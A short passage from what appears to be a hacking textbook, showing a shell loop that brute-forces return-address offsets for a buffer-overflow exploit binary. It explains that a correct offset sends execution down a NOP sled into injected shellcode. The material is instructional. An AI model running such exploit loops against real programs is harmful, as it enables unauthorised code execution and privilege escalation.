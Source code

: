 <pre style="color: white;">
reader@hacking:~/booksrc $ for i in $(seq 0 30 300)
> do
> echo Trying offset $i
> ./a.out $i
> done
Trying offset 0
[DEBUG] found a 34 byte note for user id 999
[DEBUG] found a 41 byte note for user id 999
</pre>

When the right offset is used, the return address is overwritten with a value that points somewhere on the NOP sled. When execution tries to return to that location, it will just slide down the NOP sled into the injected shellcode instructions. This is how the default offset value was discovered.